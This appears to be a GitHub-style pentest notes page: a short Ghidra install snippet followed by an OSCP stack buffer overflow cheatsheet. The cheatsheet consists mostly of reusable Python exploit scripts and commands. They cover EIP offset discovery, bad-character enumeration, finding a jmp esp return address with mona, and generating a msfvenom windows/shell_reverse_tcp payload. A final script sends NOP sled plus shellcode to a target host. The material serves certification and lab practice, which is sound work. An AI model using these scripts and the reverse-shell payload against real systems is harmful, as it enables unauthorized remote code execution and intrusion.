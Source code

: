 # PWN




## Ghidra

Install:

* [https://ghidra-sre.org/](https://ghidra-sre.org/)

```
$ mv /opt/tor-browser/Browser/Downloads/ghidra*.zip ~/tools
$ cd ~/tools && unzip ghidra*.zip && rm ghidra*.zip && mv ghidra* ghidra && cd -
$ sudo apt install openjdk-11-jdk
```




## OSCP BOF Cheatsheet

All you need to know about OSCP BOF challenge. A perfect example for practice - [here](https://www.vulnhub.com/entry/brainpan-1,51/) on VulnHub, report sample - [here](https://github.com/chvancooten/OSCP-MarkdownReportingTemplates/blob/master/Examples/Example%20Report.pdf).



### 1. Determine EIP Offset

```
$ msf-pattern_create -l 5000
$ ./bof_send_pattern.py
$ msf-pattern_offset -l 5000 -q <EIP_VALUE>
```

```python
#!/usr/bin/env python3

import socket

buf = b'<UNIQUE_PATTERN>'
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```



### 2. Confirm BOF

```
$ ./bof_confirm.py
```

```python
#!/usr/bin/env python3

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 16

buf = junk + eip + offset
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```



### 3. Enumerate Bad Characters

```
$ ./bof_bad_chars.py
```

Then in Immunity Debugger right click on ESP → "Follow in Dump", and check what characters are missing - they are the **bad characters**.

```python
#!/usr/bin/env python

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 4

badchars = b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
#badchars = '\x00'

buf = junk + eip + offset + badchars
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```



### 4. Building the Exploit


#### I. Finding a Return Address

List all loaded libraries in process memory space with [mona](https://github.com/corelan/mona):

```
!mona modules
```

Choose a module with no memory protections enabled.

Look for `jmp esp` instruction in that module:

```
$ msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
Or
nasm > call esp
00000000  FFD4              call esp

!mona find -s "\xff\xe4" -m "StorageServer.exe"
```

Found pointer is the needed value for **EIP**.


#### II. Generating a Shellcode

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f python -b "\x00"
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f python -e x86/shikata_ga_nai -b "\x00"
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f python -e x86/shikata_ga_nai -b "\x00"
```



### 5. Exploit!

```
$ ./bof_exploit.py
```

```python
#!/usr/bin/env python3

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 4
nops = b'\x90' * 10

buf = junk + eip + offset + nops
buf += b"<SHELLCODE>"
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```
